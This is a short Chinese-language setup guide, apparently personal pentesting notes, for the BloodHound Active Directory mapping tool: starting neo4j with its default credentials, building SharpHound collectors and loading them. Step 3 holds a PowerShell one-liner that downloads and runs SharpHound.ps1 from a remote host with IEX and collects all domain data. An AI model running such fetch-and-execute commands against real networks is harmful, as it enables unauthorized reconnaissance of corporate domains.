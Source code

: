 ### BloodHound

启动

1. 启动neo4j

  ```bash
  neo4j start
  neo4j console
  ```

2. 登录neo4j

  访问： http://localhost:7474/browser/
  默认账号密码： neo4j / neo4j
  第一次登录成功后，会强制更改登录用户密码

3. 启动BloodHound

  ```bash
  ./BloodHound --no-sandbox
  ```

#### 收集器

1. 下载
  https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

2. 编译exe

  > https://github.com/BloodHoundAD/SharpHound
  > 需要 .NETFramework,Version=v4.6.2 的引用程序集。
  > https://dotnet.microsoft.com/zh-cn/download/dotnet-framework/net462
  > https://github.com/BloodHoundAD/SharpHound3
  > 需要 .NETFramework,Version=v4.5.2 的引用程序集。
  > https://dotnet.microsoft.com/zh-cn/download/dotnet-framework/net452	

3. 加载powershell

  ```shell
  IEX (NEW-OBJECTnet.webclient).downloadstring('http://192.168.81.154:8000/Sharp Hound.ps1');Invoke-BloodHound -c all
  ```

4. 运行收集器

  运行收集器程序后，在当前目录将生成包含所有数据的压缩包，把压缩包拖入
  BloodHound，即可筛选查看收集到的域相关信息